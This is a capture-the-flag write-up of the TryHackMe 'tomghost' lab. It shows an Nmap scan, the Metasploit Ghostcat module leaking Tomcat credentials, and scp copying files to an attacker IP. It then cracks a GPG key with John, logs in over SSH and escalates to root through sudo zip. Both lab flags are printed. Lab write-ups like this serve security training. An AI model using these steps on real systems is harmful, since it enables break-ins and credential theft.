

# tomghost

> Platform: TryHackMe
>
> Created by: stuxnet
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA brooklyn99scan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.27s latency).
Scanned at 2025-08-03 13:44:59 +08 for 20s
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack ttl 61
8009/tcp open  ajp13      syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like there's an **Apache Tomcat server** running in **port 8080**. Try to view the page.


There's also an **Apache Jserv** running in **port 8009**. Let's try to Google for it a bit.


Based on this, actually it is giving us the **hints** already, which we need to exploit using the **Ghostcat attack**.

## Exploitation

In **Metasploit**, use the **ghostcat module** and make sure to set the **port to 8009**:
```
$ msfconsole -q

msf6 > search ghostcat

msf6 > use auxiliary/admin/http/tomcat_ghostcat

msf6 auxiliary(admin/http/tomcat_ghostcat) > options

msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS <TARGET-IP>

msf6 auxiliary(admin/http/tomcat_ghostcat) > set RPORT <TARGET-PORT>

msf6 auxiliary(admin/http/tomcat_ghostcat) > run
```

There will be the **credentials leaked** that we need to use to proceed for the next steps.

Now, let's **SSH using the credentials** and retrieve the **".pgp"** and **".asc"** file. From here also we can retrieve the **user.txt** inside the **merlin** directory (maybe unintended solve):
```
$ ssh <username>@<TARGET-IP>

$ ls
credential.pgp  tryhackme.asc

$ scp credential.pgp <ATTACKER-USERNAME>@<ATTACKER-IP>:~

$ scp tryhackme.asc <ATTACKER-USERNAME>@<ATTACKER-IP>:~

$ cat /home/merlin/user.txt
```

In our attacker machine, let's try to **crack it using John**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ gpg2john tryhackme.asc > tryhackme.hash  

File tryhackme.asc

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme.hash             
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSPHRASE>        (tryhackme)     
1g 0:00:00:00 DONE (2025-08-03 14:24) 16.66g/s 17866p/s 17866c/s 17866C/s marshall..<PASSPHRASE>
Use the "--show" option to display all of the cracked passwords reliably
Session completed.            
```

Now, using the **passphrase**, let's try to decrypt the **".pgp"** file. First, **import the ".asc"** file (it will prompt to enter the passphrase), then **decrypt the ".pgp"** file using **gpg command**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ gpg --import tryhackme.asc                                    
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ gpg --decrypt credential.pgp 
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
<USERNAME>:<PASSWORD>
```

Now, let's try to **SSH using the new credentials**:
```
$ ssh <USERNAME>@<TARGET-IP>

$ cat user.txt
```

<details>
<summary><b>🏳️Flag: user.txt</b></summary>
<b>THM{GhostCat_1s_so_cr4sy}</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
$ sudo -l
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Now, let's check how can we spawn a privilege shell by using zip. From [GTFObins - zip](https://gtfobins.github.io/gtfobins/zip/), we can get privilege shell running the command from the **Sudo section**.
```
$ TF=$(mktemp -u)

$ sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'

# sudo rm $TF
```

Now, we need to read the **"root.txt"** file to complete this machine.
```
# cat /root/root.txt
```


<details>
<summary><b>🏳️Flag: root.txt</b></summary>
<b>THM{Z1P_1S_FAKE}</b>
</details><br>